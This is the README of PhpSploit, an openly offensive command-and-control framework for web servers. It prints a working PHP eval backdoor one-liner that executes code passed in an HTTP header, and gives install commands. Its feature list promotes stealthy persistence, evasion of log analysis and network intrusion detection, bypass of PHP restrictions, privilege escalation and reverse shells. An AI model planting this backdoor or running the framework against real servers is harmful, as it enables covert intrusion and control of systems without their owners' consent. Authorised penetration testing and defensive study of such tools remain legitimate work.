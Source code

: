 <p align="center">
  <a href="https://github.com/nil0x42/phpsploit" alt="master">
    <img src="data/img/logo.png" alt="Master">
  </a>
</p>

<h3 align="center">
    Full-featured C2 framework which silently persists on <br>webserver via polymorphic PHP oneliner
    <a href="https://twitter.com/intent/tweet?text=PhpSploit%2C%20Full-featured%20C2%20framework%20which%20silently%20persists%20on%20webserver%20via%20polymorphic%20PHP%20oneliner%20-%20by%20@nil0x42&url=https://github.com/nil0x42/phpsploit">
      <img src="https://img.shields.io/twitter/url?label=tweet&logo=twitter&style=social&url=http%3A%2F%2F0" alt="tweet">
    </a>
</h3>
<br>

<p align="center">
  <a href="https://github.com/nil0x42/phpsploit/actions/workflows/unit-tests.yml?query=branch%3Amaster">
    <img src="https://img.shields.io/github/workflow/status/nil0x42/phpsploit/Unit%20Tests/master?label=tests&logo=githubactions" alt="Unit Tests workflow">
  </a>
  <a href="https://github.com/nil0x42/phpsploit/network/dependencies#requirements.txt">
    <img src="https://img.shields.io/badge/dependabot-ok-aaf?logo=dependabot&logoColor=aaf" alt="Dependabot status">
  </a>
  <a href="https://app.codacy.com/gh/nil0x42/phpsploit/dashboard">
    <img src="https://img.shields.io/codacy/grade/f8514058aec04ad98727c79701bc042a?logo=codacy&logoColor=green" alt="codacy code quality">
  </a>
  <a href="https://github.com/nil0x42/phpsploit/actions/workflows/codeql-analysis.yml?query=branch%3Amaster">
    <img src="https://img.shields.io/github/workflow/status/nil0x42/phpsploit/CodeQL/master?label=codeql&logo=lgtm&logoColor=ff0&color=af8" alt="CodeQL workflow">
  </a>
  <a href="https://codecov.io/gh/nil0x42/phpsploit">
    <img src="https://img.shields.io/codecov/c/github/nil0x42/phpsploit?color=orange&label=coverage&logo=codecov" alt="codecov coverage">
  </a>
  <a href="https://codeclimate.com/github/nil0x42/phpsploit/maintainability">
    <img src="https://api.codeclimate.com/v1/badges/6986200c1729b4a70a40/maintainability" alt="codeclimate maintainability">
  </a>
</p>

<p align="center">
  <a href="https://github.com/enaqx/awesome-pentest">
    <img src="https://awesome.re/mentioned-badge.svg">
  </a>
  <a href="https://www.kali.org/tools/phpsploit/">
    <img src="https://img.shields.io/static/v1?label=Kali%20Linux&message=packaged&color=red&logo=kalilinux&logoColor=ff0">
  </a>
  <a href="https://www.blackarch.org/webapp.html">
    <img src="https://img.shields.io/static/v1?label=BlackArch&message=packaged&color=red&logo=archlinux&logoColor=006">
  </a>
  <a href="https://twitter.com/intent/follow?screen_name=nil0x42" target="_blank">
    <img src="https://img.shields.io/twitter/follow/nil0x42.svg?logo=twitter">
  </a>
</p>

<div align="center">
  <sub>
    Created by
    <a href="https://twitter.com/nil0x42">nil0x42</a> and
    <a href="https://github.com/nil0x42/phpsploit#contributors">contributors</a>
  </sub>
</div>

<br>

* * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * *

<p align="center">
  <img src="data/img/demo.png">
</p>


#### Overview

The obfuscated communication is accomplished using HTTP headers under
standard client requests and web server's relative responses, tunneled
through a tiny **polymorphic backdoor**:

```php
<?php @eval($_SERVER['HTTP_PHPSPL01T']); ?>
```

* * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * *

#### Quick Start

```sh
git clone https://github.com/nil0x42/phpsploit
cd phpsploit/
pip3 install -r requirements.txt
./phpsploit --interactive --eval "help help"
```

* * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * *

#### Features

-   **Efficient**: More than 20 plugins to automate privilege-escalation tasks
    -   Run commands and browse filesystem, bypassing PHP security restrictions
    -   Upload/Download files between client and target
    -   Edit remote files through local text editor
    -   Run SQL console on target system
    -   Spawn reverse TCP shells

-   **Stealth**: The framework is made by paranoids, for paranoids
    -   Nearly invisible by log analysis and NIDS signature detection
    -   Safe-mode and common _PHP security restrictions bypass_
    -   Communications are hidden in HTTP Headers
    -   Loaded payloads are obfuscated to _bypass NIDS_
    -   http/https/socks4/socks5 **Proxy support**

-   **Convenient**: A robust interface with many crucial features
    -   Detailed help for any option (`help` command)
    -   _Cross-platform_ on both client and server.
    -   CLI supports auto-completion & multi-command
    -   Session saving/loading feature & persistent history
    -   Multi-request support for large payloads (such as uploads)
    -   Provides a powerful, highly configurable settings engine
    -   Each setting, such as user-agent has a _polymorphic mode_
    -   Customisable environment variables for plugin interaction
    -   Provides a complete plugin development API

* * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * *

#### Supported platforms (as attacker):

-   GNU/Linux
-   Mac OS X

#### Supported platforms (as target):

-   GNU/Linux
-   BSD-like
-   Mac OS X
-   Windows NT

## Contributors

<!-- [![](https://contrib.rocks/image?repo=nil0x42/phpsploit)](https://github.com/nil0x42/phpsploit/graphs/contributors) -->
<!-- <details> -->
<!-- <summary><b>:trophy: All contributors</b></summary> -->
Thanks goes to these wonderful people:
<!-- ALL-CONTRIBUTORS-LIST:START - Do not remove or modify this section -->
<!-- prettier-ignore-start -->
<!-- markdownlint-disable -->
<table>
  <tr>
    <td align="center"><a href="https://exdemia.com"><img src="https://avatars1.githubusercontent.com/u/3504393?v=4" width="100px;" alt=""/><br /><sub><b>nil0x42</b></sub></a><br /><a href="https://github.com/nil0x42/phpsploit/commits?author=nil0x42" title="Code">💻</a> <a href="#infra-nil0x42" title="Infrastructure (Hosting, Build-Tools, etc)">🚇</a> <a href="#plugin-nil0x42" title="Plugin/utility libraries">🔌</a> <a href="https://github.com/nil0x42/phpsploit/commits?author=nil0x42" title="Tests">⚠️</a></td>
    <td align="center"><a href="https://github.com/shiney-wh"><img src="https://avatars1.githubusercontent.com/u/20907184?v=4" width="100px;" alt=""/><br /><sub><b>shiney-wh</b></sub></a><br /><a href="https://github.com/nil0x42/phpsploit/commits?author=shiney-wh" title="Code">💻</a> <a href="#plugin-shiney-wh" title="Plugin/utility libraries">🔌</a></td>
    <td align="center"><a href="http://wapiflapi.github.io"><img src="https://avatars3.githubusercontent.com/u/1619783?v=4" width="100px;" alt=""/><br /><sub><b>Wannes Rombouts</b></sub></a><br /><a href="https://github.com/nil0x42/phpsploit/commits?author=wapiflapi" title="Code">💻</a> <a href="#maintenance-wapiflapi" title="Maintenance">🚧</a></td>
    <td align="center"><a href="http://yurilz.com"><img src="https://avatars1.githubusercontent.com/u/6031769?v=4" width="100px;" alt=""/><br /><sub><b>Amine Ben Asker</b></sub></a><br /><a href="https://github.com/nil0x42/phpsploit/commits?author=yurilaaziz" title="Code">💻</a> <a href="#maintenance-yurilaaziz" title="Maintenance">🚧</a></td>
    <td align="center"><a href="http://twitter.com/jnazario"><img src="https://avatars1.githubusercontent.com/u/5619153?v=4" width="100px;" alt=""/><br /><sub><b>jose nazario</b></sub></a><br /><a href="https://github.com/nil0x42/phpsploit/commits?author=paralax" title="Documentation">📖</a> <a href="https://github.com/nil0x42/phpsploit/issues?q=author%3Aparalax" title="Bug reports">🐛</a></td>
    <td align="center"><a href="http://wikisecure.net"><img src="https://avatars3.githubusercontent.com/u/156915?v=4" width="100px;" alt=""/><br /><sub><b>Sujit Ghosal</b></sub></a><br /><a href="#blog-sujit" title="Blogposts">📝</a></td>
    <td align="center"><a href="https://github.com/sohelzerdoumi"><img src="https://avatars3.githubusercontent.com/u/3418725?v=4" width="100px;" alt=""/><br /><sub><b>Zerdoumi</b></sub></a><br /><a href="https://github.com/nil0x42/phpsploit/issues?q=author%3Asohelzerdoumi" title="Bug reports">🐛</a></td>
  </tr>
  <tr>
    <td align="center"><a href="https://github.com/tristandostaler"><img src="https://avatars3.githubusercontent.com/u/5489330?v=4" width="100px;" alt=""/><br /><sub><b>tristandostaler</b></sub></a><br /><a href="https://github.com/nil0x42/phpsploit/issues?q=author%3Atristandostaler" title="Bug reports">🐛</a></td>
    <td align="center"><a href="https://github.com/rohantarai"><img src="https://avatars3.githubusercontent.com/u/16543074?v=4" width="100px;" alt=""/><br /><sub><b>Rohan Tarai</b></sub></a><br /><a href="https://github.com/nil0x42/phpsploit/issues?q=author%3Arohantarai" title="Bug reports">🐛</a></td>
    <td align="center"><a href="https://triop.se"><img src="https://avatars1.githubusercontent.com/u/190150?v=4" width="100px;" alt=""/><br /><sub><b>Jonas Lejon</b></sub></a><br /><a href="#blog-jonaslejon" title="Blogposts">📝</a></td>
  </tr>
</table>

<!-- markdownlint-enable -->
<!-- prettier-ignore-end -->
<!-- ALL-CONTRIBUTORS-LIST:END -->
This project follows the [all-contributors](https://github.com/all-contributors/all-contributors) specification. Contributions of any kind welcome

<!-- </details> -->
